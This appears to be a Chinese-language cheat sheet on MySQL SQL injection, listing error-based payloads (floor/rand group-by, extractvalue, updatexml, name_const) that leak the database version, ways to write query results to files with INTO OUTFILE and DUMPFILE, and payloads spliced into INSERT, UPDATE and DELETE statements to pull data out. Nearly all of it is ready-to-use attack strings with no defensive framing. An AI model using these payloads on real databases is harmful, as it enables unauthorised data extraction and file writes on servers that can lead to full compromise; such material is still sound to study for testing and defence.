 








# 延伸拓展
## mysql 经典报错方式
第一种：
```
select count(*), floor(rand(0)*2)x from information_schema.tables group by x
```
变形：
```
select count(*), concat(floor(rand(0)*2), 0x5e5e, version())x from information_schema.tables group by x
(select 1 from(select count(*), concat(floor(rand(0)*2), 0x5e5e, version())x from information_schema.tables group by x)y)
```

第二种：
```
extractvalue(1, concat(0x7e,version()))
```

第三种：
```
updatexml(1, concat(0x5e, version()), 1)
```

第四种：
```
SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a
出错信息：
Duplicate column name '5.5.49-0ubuntu0.14.04.1'
```

* name_const()函数是MYSQL5.0.12版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。



## mysql将结果注入文件中的方法
> 导入多行
```
select * from users into outfile 'file.txt'
```

>导入单行
```
select * from users limit 0,1 into dumpfile 'file.txt'
select * from users limit 0,1 into outfile 'file.txt'
```


## 利用insert，update和delete注入获取数据
payload
```
or updatexml(1,concat(0x7e,(version())),0) or
```
利用
```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', 'Nervo');

UPDATE users SET password='Nicky' or updatexml(2,concat(0x7e,(version())),0) or''WHERE id=2 and username='Olivia';

DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or'';
```